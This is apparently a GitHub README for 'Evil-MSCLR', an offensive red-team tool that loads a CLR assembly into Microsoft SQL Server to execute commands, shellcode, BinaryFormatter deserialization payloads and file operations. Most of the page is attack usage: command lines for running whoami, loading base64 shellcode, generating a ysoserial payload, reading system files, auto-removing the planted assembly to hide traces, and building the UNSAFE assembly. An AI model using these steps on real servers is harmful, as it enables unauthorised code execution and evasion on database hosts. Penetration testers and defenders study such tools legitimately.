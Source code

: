 # Evil-MSCLR

A tool for red teams to use the CLR feature in MSSQL to execute commands and load shellcode.

[![](assets/img/ShellCode.png)](https://github.com/user-attachments/assets/608e2aa5-bada-453c-a21c-5b5222810612)

> To use this tool, you must have access to a user with the sysadmin or serveradmin role.

* [Build](#build)
* [Usage](#usage)
    * [LoadAssembly](#loadassembly)
    * [AutoRemove](#autoremove)
    * [Example](#example)
        * [ShellCode](#shellcode)
        * [BinaryFormatter](#binaryformatter)

## Usage

```bash
.\Evil-MSCLR.exe --help
Usage of C:\Evil-MSCLR.exe:
  -autoremove
        Automatic deletion of loaded assembly and created procedures
  -config string
        Config file path (default "config.json")
  -function string
        Function used in module loaded in MSSQL CLR
  -argument string
        Argument for the function used
  -file string
        Reading argument value from file
  -functions
        Description of functions available in the module loaded in MSSQL
  -loadassembly
        Loading Assembly into MSSQL
```

### LoadAssembly

```powershell
Evil-MSCLR.exe -loadassembly
```

![](assets/img/loadassembly.png)

### AutoRemove

Automatic deletion of loaded assembly and created procedures.

```powershell
Evil-MSCLR.exe -loadassembly -function Command -argument whoami -autoremove
```
![](assets/img/autoremove.png)


### Function

For a description of the functions available in the module loaded in MSSQL, use the following command:
```bash
.\Evil-MSCLR.exe -functions
Name: BinaryFormatter
Description: This function is used to execute serialized payloads.
Example: ysoserial.exe -f BinaryFormatter -g ResourceSet -o base64 -c 'cmd.exe /c echo hello > C:\msg.txt'
 Evil-MSCLR.exe -loadassembly -function BinaryFormatter -argument 'base64 Payload'
------------------------
Name: ShellCode
Description: This function is used to execute shellcode, may be unsafe and may cause MSSQL service to crash.
Example: Evil-MSCLR.exe -loadassembly -function ShellCode -argument 'base64 shellcode'
------------------------
Name: Command
Description: This function is used to execute cmd commands, using this function will create a cmd process.
Example: Evil-MSCLR.exe -loadassembly -function Command -argument 'whoami'
------------------------
Name: FileSystem
Description: This function is used to create, read, write, and delete files.
Example: Evil-MSCLR.exe -loadassembly -function FileSystem -argument 'read,c:\Windows\System32\drivers\etc\hosts'
```

#### Example

```powershell
Evil-MSCLR.exe -loadassembly -function Command -argument whoami
```

![](assets/img/function.png)

#### ShellCode

```powershell
Set-Content -Path "payload.b64.txt" -Value ([System.Convert]::ToBase64String(([System.IO.File]::ReadAllBytes("payload_x64.bin"))))

Evil-MSCLR.exe -loadassembly -function ShellCode -file payload.b64.txt
```

![](assets/img/ShellCode.png)

#### BinaryFormatter

```powershell
Evil-MSCLR.exe -loadassembly -function BinaryFormatter -argument "AAEAAAD/////AQAAAAAAAAAEAQA..." -autoremove
```

![](assets/img/BinaryFormatter.png)

## Build

Install Visual Studio `Data Storage and Processing` workload.

* Compile the CLR module located in the [StoredProcedure](StoredProcedure/) folder.
* In the `StoredProcedure\StoredProcedure\bin\Release` path, a file named `StoredProcedure_Create.sql` is generated, which contains the SQL code for loading the module.
* In the `"CREATE ASSEMBLY"` section, put the value in Hex in the `assembly field` in the `"config.json"` file.

For example:

`StoredProcedure_Create.sql`

```sql
CREATE ASSEMBLY [StoredProcedure]
    AUTHORIZATION [dbo]
    FROM 0x4D5A90000300000004000000FFFF00...
    WITH PERMISSION_SET = UNSAFE;
```

`config.json`

```json
{
    "assemblyname":"StoredProcedure",
    "assembly":"0x4D5A90000300000004000000FFFF00..."
}
```
